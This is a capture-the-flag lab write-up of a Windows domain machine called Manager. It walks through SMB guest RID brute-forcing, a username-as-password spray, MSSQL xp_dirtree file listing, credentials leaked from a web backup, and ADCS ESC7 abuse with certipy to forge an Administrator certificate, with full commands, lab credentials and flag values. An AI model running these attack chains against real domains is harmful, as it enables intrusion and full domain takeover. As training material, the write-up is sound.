<p style="text-align:center">
  
</p>

<p>
  
  
  
</p>

> **TL;DR** - SMB allows guest access, so I RID-brute the users and spray their own names as passwords, which lands `operator:operator`. That account can talk to MSSQL, and from there I use `xp_dirtree` to list the web root and spot a leftover site backup. Downloading and unzipping it leaks `raven:R4v3nBe5tD3veloP3r!123` in a hidden config, giving a WinRM shell (user.txt). For root it's ADCS ESC7: raven has `ManageCA` on the CA, so I grant myself the officer right, enable the dangerous `SubCA` template, issue a certificate for the Administrator, and authenticate with it to get the DA hash.

## Recon

Started with a full port scan against the target.

```bash
nmap -sV -sC -p- 10.129.103.32 -oN nmap/manager
```



First I went to the webpage to see if the foothold was there.



After some inspecting there was nothing useful, so I went back to the scan for other approaches. Lately I've been really enjoying netexec (an amazing tool), so I started enumerating SMB. No unauthenticated access, but the `guest` account gets you in.

```bash
nxc smb 10.129.103.32 -u guest -p '' --shares
```



guest can enumerate the shares but only has read on `IPC$`, which is a default share with nothing useful inside. So instead of chasing shares, I used the guest session to brute the RIDs and pull the domain users (when you can't list users over LDAP, RID brute over SMB is the move).

```bash
nxc smb 10.129.103.32 -u guest -p '' --rid-brute
```



And there's a nice list of users. I saved them all to a file. I poked around for more hints but found nothing, so I went for the laziest attack in the book: build a password list from the usernames themselves (same name, a few variations) and spray it. And I got a hit.

```bash
nxc smb 10.129.103.32 -u users.txt -p passwords.txt --no-bruteforce --continue-on-success
```


`operator:operator`, a valid account. Classic. Let's see what it can do, and it turns out operator can reach the MSSQL server.



## MSSQL -> web backup -> raven

With a lot of recon inside MSSQL I found something good. Even as a low-priv login you can use `xp_dirtree` to walk the filesystem, so I pointed it at the web root and listed the server's files.

```sql
EXEC xp_dirtree 'C:\inetpub\wwwroot', 1, 1;
```



There was a leftover backup sitting right in the web root. Since it lives under the website, I don't even need the database to pull it, I can just grab it over HTTP. In this case `http://10.129.103.32/website-backup-27-07-23-old.zip` downloads the zip straight away, so I grabbed it with curl.

```bash
curl -s http://10.129.103.32/website-backup-27-07-23-old.zip -o backup.zip
```



I unzipped it and listed the files, and spotted a hidden one. Opening it up, there were credentials for a user we'd already seen.



`raven:R4v3nBe5tD3veloP3r!123`. Let's check if they're valid.



Valid, and good for WinRM, so let's grab the user flag, I bet it's right there.

```bash
evil-winrm -i manager.htb -u raven -p 'R4v3nBe5tD3veloP3r!123'
```



`26519380e3bad41c3f07271a1aa2bd52`

## Privilege escalation (ADCS ESC7)

I'd already run BloodHound and marked raven as owned, but nothing jumped out there, so I went looking at ADCS with certipy to see if any template or the CA itself was vulnerable.

```bash
certipy find -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.129.103.32 -vulnerable -stdout
```



And there it is, **ESC7**. ESC7 is when your account holds the `ManageCA` or `ManageCertificates` permission on the CA itself, and raven has `ManageCA` on `manager-DC01-CA`. On its own `ManageCA` doesn't let you hand out certificates, but here's the trick: with `ManageCA` you can just grant yourself the `ManageCertificates` (officer) right, and now you've got both. From there the attack is to enable the built-in `SubCA` template (which normally nobody is allowed to enroll), request a certificate from it as the Administrator (the request gets denied, but it hands you a request ID), then use your fresh officer right to approve that denied request and retrieve the cert. End result: a certificate for the domain Administrator.

So first I added raven as an officer and enabled the SubCA template.

```bash
certipy ca -ca 'manager-DC01-CA' -add-officer raven -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.129.103.32
certipy ca -ca 'manager-DC01-CA' -enable-template SubCA -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.129.103.32
```





Then I requested a certificate for the Administrator from the SubCA template. As expected it failed, because raven can't actually enroll in SubCA, but it gave me the request ID (`20`).

```bash
certipy req -ca 'manager-DC01-CA' -template SubCA -upn administrator@manager.htb -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.129.103.32
```



Now I use the officer right to approve that failed request (id `20`) and retrieve the certificate, which comes out as `administrator.pfx`.

```bash
certipy ca -ca 'manager-DC01-CA' -issue-request 20 -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.129.103.32
certipy req -ca 'manager-DC01-CA' -retrieve 20 -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.129.103.32
```



Then I just authenticate with the pfx to pull the Administrator's hash (and a TGT).

```bash
certipy auth -pfx administrator.pfx -dc-ip 10.129.103.32
```



And finally log in as the Administrator with the hash to grab root.



`176d7f47a541d00e878e8d6f2a686e76`

## Kill chain summary

| Phase | Vector | Result |
|---|---|---|
| Recon | SMB guest + RID brute | domain user list |
| Foothold | password spray (username = password) | `operator:operator` |
| Lateral | MSSQL `xp_dirtree` -> web backup zip | `raven:R4v3nBe5tD3veloP3r!123` (WinRM, user.txt) |
| Root | ADCS ESC7 (ManageCA -> officer -> SubCA) | Administrator certificate -> DA (root.txt) |

## Final thoughts

Nice box. The front half is a good lesson in not overcomplicating things, I almost walked past `operator:operator` looking for something fancier, when the simplest possible spray was the answer. The ESC7 at the end is a clean one to learn because it shows that `ManageCA` alone is basically game over on a CA: even without enrollment rights, you can bootstrap the officer permission and bully a certificate out of the SubCA template. Solid Medium.
